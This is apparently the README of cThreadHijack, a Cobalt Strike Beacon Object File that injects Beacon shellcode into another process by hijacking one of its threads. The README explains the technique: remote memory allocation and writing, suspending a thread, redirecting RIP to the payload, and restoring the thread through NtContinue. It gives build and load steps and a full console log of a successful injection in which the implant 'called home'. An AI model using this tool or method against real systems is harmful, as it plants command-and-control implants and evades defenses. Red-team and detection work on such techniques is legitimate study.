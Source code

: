 ## cThreadHijack
```
     ___________.__                              .______ ___ .__     __               __    
  ___\__    ___/|  |_________   ____ _____     __| _/   |   \|__|   |__|____    ____ |  | __
_/ ___\|    |   |  |  \_  __ \_/ __ \\__  \   / __ /    ~    \  |   |  \__  \ _/ ___\|  |/ /
\  \___|    |   |   Y  \  | \/\  ___/ / __ \_/ /_/ \    Y    /  |   |  |/ __ \\  \___|    < 
 \___  >____|   |___|  /__|    \___  >____  /\____ |\___|_  /|__/\__|  (____  /\___  >__|_ \
     \/              \/            \/     \/      \/      \/    \______|    \/     \/     \/
```
Beacon Object File (BOF) for remote process injection, via thread hijacking, without spawning a remote thread. cThreadHijack works by injecting raw Beacon shellcode, generated via a user-supplied listener argument, into a remote process, defined by the user-supplied PID argument, via `VirtualAllocEx` and `WriteProcessMemory`. Then, instead of spawning a new remote thread via `CreateRemoteThread` or other APIs, cThreadHijack identifies the first enumerated thread in the target process, suspends it, and retrieves the contents of the thread's CPU state via a `CONTEXT` structure. Then, the RIP register member of the `CONTEXT` structure (on 64-bit systems) is manipulated to point to the address of the aforementioned remote Payload. Prior to execution, a routine is added to wrap the Beacon shellcode inside of a call to `CreateThread` - giving Beacon its own thread to work in, with this thread being locally spawned, versus being spawned remotely. The `CreateThread` routine is also wrapped in an `NtContinue` function call routine, allowing restoration of the previously hijacked thread without crashing the remote process. Beacon payloads for cThreadHijack are generated with a 'thread' exit function, allowing process continuation after the Beacon has been exited. Beacon listener names, when containing a space, must be placed in quotes.

### BUILDING: ###
1. On a Windows machine, open a `x64 Native Tools Command Prompt for VS` prompt. This can be done by pressing the Windows key and typing `x64 Native Tools` and selecting the prompt.
2. Change directory to `C:\path\to\cThreadHijack`.
3. `nmake -f Makefile.msvc build`
4. Load cThreadHijack.cna through the Cobalt Strike `Script Console` with `load /path/to/cThreadHijack.cna`

### USAGE: ###
`cThreadHijack PID LISTENER_NAME`

```
beacon> cThreadHijack 7340 TESTING
[+] host called home, sent: 268433 bytes
[+] received output:
[+] Target process PID: 7340

[+] received output:
[+] Opened a handle to PID 7340

[+] received output:
[+] Found a thread in the target process! Thread ID: 10212

[+] received output:
[+] Suspending the targeted thread...

[+] received output:
[+] Wrote Beacon shellcode to the remote process!

[+] received output:
[+] Virtual memory for CreateThread and NtContinue routines allocated at 0x201f4ab0000 inside of the remote process!

[+] received output:
[+] Size of NtContinue routine: 64 bytes
[+] Size of CONTEXT structure: 1232 bytes
[+] Size of stack alignment routine: 4
[+] Size of CreateThread routine: 64
[+] Size of shellcode: 261632 bytes

[+] received output:
[+] Wrote payload to buffer to previously allocated buffer inside of!

[+] received output:
[+] Current RIP: 0x7ffa55df69a4

[+] received output:
[+] Successfully pointed the target thread's RIP register to the shellcode!

[+] received output:
[+] Current RIP: 0x201f4ab0000

[+] received output:
[+] Resuming the thread! Please wait a few moments for the Beacon payload to execute...
```


